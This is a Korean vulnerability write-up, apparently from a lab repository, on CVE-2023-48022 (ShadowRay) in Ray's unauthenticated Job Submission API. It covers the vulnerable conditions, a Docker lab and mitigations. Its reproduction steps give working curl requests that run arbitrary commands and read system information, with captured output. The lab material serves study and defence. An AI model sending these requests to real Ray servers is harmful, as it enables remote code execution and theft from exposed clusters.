



# CVE-2023-48022 - Ray ShadowRay 취약점 분석

## 개요

| 항목 | 내용 |
|------|------|
| CVE 번호 | CVE-2023-48022 |
| 취약 소프트웨어 | Ray (Anyscale) |
| 취약 버전 | 2.8.0 이하 |
| 취약점 유형 | 인증 없는 Job Submission API를 통한 원격 코드 실행 (RCE) |
| CVSS 점수 | 9.8 (Critical) |
| 별칭 | ShadowRay |

Ray는 AI/ML 분산 컴퓨팅 프레임워크로, 클러스터에 Python Job을 제출해 실행하는 기능을 제공한다.
이 Job Submission API에 인증이 없어 외부 공격자가 임의 명령을 실행할 수 있다.

---

## Contributors

| Name | GitHub |
|------|--------|
| 백지훈 | [@a4baekji](https://github.com/a4baekji) |

---

## 취약 조건 분석

### 1. 취약한 설정이 기본값인지 여부
`--dashboard-host 0.0.0.0` 은 기본값이 아니다(기본값은 `127.0.0.1`).
그러나 이는 단순한 네트워크 바인딩 설정일 뿐, 관리자는 "외부에서 대시보드에 접근하겠다"는 의도로 설정하며 RCE가 가능해진다는 위험성을 인지하기 어렵다.
실제로 Ray 공식 문서는 해당 설정에 대한 보안 경고를 명시하지 않았다.

### 2. 일반적인 설치·운영 과정에서 사용되는 설정인지
클라우드 및 컨테이너 환경에서 외부 접근이 필요한 경우 `0.0.0.0` 바인딩은 일반적인 관행이다.
분산 클러스터 구성 시 다수의 배포 가이드와 예제에서 이 설정을 사용한다.

### 3. 사용자가 보안 위험을 사전에 인지할 수 있는지
인지하기 어렵다. Ray에는 Job Submission API에 대한 인증 메커니즘 자체가 존재하지 않아,
관리자는 대시보드를 외부에 노출하는 것이 곧 인증 없는 RCE를 허용하는 것임을 알기 어렵다.
실제로 2024년 ShadowRay 캠페인에서 수천 대의 Ray 서버가 이 취약점으로 침해됐다.

### 4. 별도의 비정상적 설정이나 보안 통제 해제가 필요한지
필요하지 않다. 관리자가 "보안 기능을 해제"한 것이 아니라,
Ray 소프트웨어 자체에 인증 기능이 설계되지 않은 것이다.
이는 설정 실수가 아닌 소프트웨어 설계상의 취약점으로 볼 수 있다.

## 환경 구성

### 요구사항
- Docker

### 실행

```bash
git clone https://github.com/a4baekji/kr-vulhub.git
cd kr-vulhub/Ray/CVE-2023-48022
docker compose up -d --build
```

대시보드 응답 확인 (15~30초 대기 후):

```bash
curl http://localhost:8265/api/version
```

`ray_version: 2.8.0` 응답이 오면 환경 구성 완료.



---

## 취약 조건

1. Ray 대시보드가 `0.0.0.0`으로 외부에 노출되어 있을 것 (`--dashboard-host 0.0.0.0`)
2. Ray 버전이 2.8.0 이하일 것
3. 공격자가 8265 포트에 HTTP 요청을 보낼 수 있을 것

Ray는 신뢰된 내부 네트워크에서만 사용하도록 설계되었으나,
실제로는 수천 대의 Ray 서버가 인증 없이 인터넷에 노출되어 있었다.

---

## 재현 절차

### 1단계: Job 제출 (공격 요청)

인증 헤더 없이 HTTP POST 요청 한 번으로 임의 명령을 실행한다.

```bash
curl -s -X POST http://localhost:8265/api/jobs/ \
  -H "Content-Type: application/json" \
  -d '{"entrypoint": "id", "runtime_env": {}}'
```

### 2단계: 실행 결과 확인

```bash
# 응답으로 받은 job_id를 아래 명령에 입력
curl -s http://localhost:8265/api/jobs/{job_id}/logs
```

### 3단계: 서버 정보 탈취

```bash
curl -s -X POST http://localhost:8265/api/jobs/ \
  -H "Content-Type: application/json" \
  -d '{"entrypoint": "hostname && cat /etc/os-release", "runtime_env": {}}'
```

```bash
# 응답으로 받은 job_id를 아래 명령에 입력
curl -s http://localhost:8265/api/jobs/{job_id}/logs
```

---

## 실행 결과

### Job 제출 응답
```json
{"job_id": "raysubmit_2mXks65gtBdH6jB1", "submission_id": "raysubmit_2mXks65gtBdH6jB1"}
```

인증 없이 즉시 job_id가 발급됨.

### 명령 실행 결과 (`id`)
```json
{"logs": "uid=1000(ray) gid=100(users) groups=100(users),27(sudo)\n"}
```

- 컨테이너 내부에서 `ray` 유저로 임의 명령 실행 확인
- `sudo` 그룹 포함 → 권한 상승 가능



### 서버 정보 탈취 (`hostname && cat /etc/os-release`)
```json
{"logs": "7d2db6809c8b\nNAME=\"Ubuntu\"\nVERSION=\"20.04.6 LTS (Focal Fossa)\"\n..."}
```

서버의 호스트명 및 OS 정보 탈취 확인.



---

## 대응 방안

### 1. 네트워크 차단 (가장 중요)
8265 포트를 방화벽으로 외부에서 접근 불가하게 차단한다.
Ray는 신뢰된 내부 네트워크에서만 사용해야 한다.

### 2. 대시보드 바인딩 변경
`--dashboard-host 0.0.0.0` 대신 `--dashboard-host 127.0.0.1` 로 설정해
로컬에서만 접근 가능하게 한다.

### 3. 인증 프록시 사용
Nginx 등 리버스 프록시를 앞에 두고 Basic Auth 또는 IP 화이트리스트를 적용한다.

### 4. Ray 버전 업데이트
공식적으로 패치된 버전은 없으나(disputed CVE), 최신 버전에서는
`RAY_SECURITY_CONFIG` 등 보안 설정을 활용할 수 있다.

---

## 참고 자료

- [Oligo Security - ShadowRay 분석 보고서](https://www.oligo.security/blog/shadowray-attack-ai-workloads-actively-exploited-in-the-wild)
- [NVD - CVE-2023-48022](https://nvd.nist.gov/vuln/detail/CVE-2023-48022)
- [Ray 공식 문서 - 보안 설정](https://docs.ray.io/en/latest/ray-security/index.html)